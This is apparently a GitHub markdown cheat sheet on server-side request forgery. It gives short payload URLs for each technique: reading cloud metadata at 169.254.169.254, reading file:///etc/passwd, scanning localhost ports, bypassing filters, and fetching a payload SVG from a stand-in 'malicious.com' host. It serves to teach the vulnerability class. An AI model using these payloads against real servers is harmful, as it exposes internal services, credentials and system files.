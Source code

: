 # Server-Side Request Forgery(SSRF)

Server-Side Request Forgery (SSRF) is a security vulnerability that allows an attacker to send crafted requests from a vulnerable server to internal or external resources, potentially exposing sensitive data.

## Methods to perform SSRF:
- ### URL Encoding and Manipulation
Attackers can use URL encoding to bypass input validation. For example, encoding special characters can help in accessing restricted resources.
```text
http://example.com/ssrf.php?url=http://127.0.0.1/%61dmin
```
- ### Exploiting Cloud Metadata Services
Many cloud providers expose sensitive metadata that can be accessed via SSRF. For instance, AWS metadata can be accessed using:
```text
http://169.254.169.254/latest/meta-data/
```
- ### Using Different URL Schemes
Attackers can leverage various URL schemes to access internal resources. Examples include:

`File Access`
```text
http://example.com/ssrf.php?url=file:///etc/passwd
```
`LDAP`
```text
http://example.com/ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```
- ### Cross-Site Port Attack (XSPA)
This technique allows attackers to scan for open ports on the server by sending requests to localhost. Examples include:
```text
http://localhost:22/
http://127.0.0.1:80/
```
- ### Chaining SSRF with Other Attacks
SSRF can be combined with other vulnerabilities, such as XSS or RCE, to escalate the attack. For example, fetching an SVG file containing malicious JavaScript:
```text
http://example.com/ssrf.php?url=http://malicious.com/payload.svg
```
- ### Bypassing Filters
Attackers can bypass whitelisting by using techniques like DNS rebinding or manipulating the request format. For instance:
```text
http://localtest.me
```
These advanced techniques highlight the importance of robust input validation and security measures to mitigate SSRF vulnerabilities.
- ### Using HTTP Methods
Attackers can exploit different HTTP methods (GET, POST, PUT) to manipulate server behavior. For example, using a POST request to send data to an internal service:
```text
POST /ssrf.php HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

url=http://internal-service.local
```
- ### DNS Rebinding
This technique allows attackers to control a domain's DNS resolution, redirecting requests to internal IPs. An example of a crafted DNS response could be:
```text
A 192.168.1.1
```
